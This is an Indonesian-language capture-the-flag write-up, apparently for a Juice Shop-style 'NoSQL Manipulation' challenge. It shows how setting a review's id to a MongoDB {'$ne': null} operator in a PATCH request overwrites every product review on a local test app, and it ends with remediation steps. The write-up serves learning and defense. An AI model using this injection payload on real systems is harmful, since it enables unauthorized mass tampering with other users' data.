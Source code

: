 # NoSQL Manipulation

## Challenge Overview

**Judul:** NoSQL Manipulation

**Kategori:** Injection

**Kesulitan:** ⭐⭐⭐⭐ (4/6)

Challenge ini mengeksploitasi kerentanan **NoSQL Injection** untuk memanipulasi query sehingga bisa mengubah **semua review produk sekaligus**, padahal fitur normal hanya boleh mengedit satu review saja.

---

## Tools Used

* **Burp Suite / Interception Proxy** → menangkap & memodifikasi request `PATCH`.
* **Pengetahuan NoSQL Injection (MongoDB)** → terutama penggunaan operator query seperti `$ne`, `$gt`, dll.

---

## Step by Step Solution

### 1. Analisis Request Normal

Saat mengedit review, aplikasi mengirim request `PATCH` ke endpoint `/rest/products/reviews`. Contoh payload:

```http
PATCH /rest/products/reviews HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "id": "specific_review_id",
  "message": "updated_review_text"
}
```
![alt text](assets/nosql1.jpg)
![alt text](assets/nosql2.jpg)



---

### 2. Identifikasi Celah

Field `id` langsung diproses ke dalam query NoSQL (MongoDB). Jika input ini tidak difilter, maka kita bisa menyuntikkan operator MongoDB (`$ne`, `$gt`, `$or`, dll.).

---

### 3. Buat Payload NoSQL Injection

Untuk memaksa semua review ikut ter-update, saya mengganti `id` dengan operator `$ne`:

```json
"id": { "$ne": null }
```

Artinya: pilih semua dokumen dimana `id` ≠ `null`. Karena semua review punya `id` valid (tidak ada yang null), maka kondisi ini mengenai **seluruh review**.

---

### 4. Kirim Request yang Dimodifikasi

Payload lengkap:

```http
PATCH /rest/products/reviews HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "id": { "$ne": null },
  "message": "ak cantik"
}
```
![alt text](assets/nosql3.jpg)
Setelah dikirim, semua review di aplikasi berubah menjadi pesan `"ak cantik"`.

![alt text](assets/nosql4.jpg)

---

## Solution Explanation

* Aplikasi rentan karena input JSON (`id`) dipakai langsung dalam query MongoDB.
* Operator `$ne` membuat filter berlaku ke seluruh koleksi, sehingga update dijalankan massal.
* Backend tidak memiliki validasi untuk memastikan `id` hanya berupa string tertentu, bukan sebuah operator.

---

## Remediation

1. **Validasi Input**
   Batasi input agar hanya menerima string (UUID/ID) yang valid, bukan objek dengan operator NoSQL.

2. **Gunakan Parameterized Queries / ORM**
   Gunakan library yang aman dan otomatis memisahkan data dari query logic.

3. **Batasi Otorisasi**
   Pastikan hanya pemilik review yang bisa mengedit review tersebut.

4. **Testing & Auditing**
   Lakukan security testing untuk mendeteksi pola input berbahaya di endpoint yang menerima JSON.
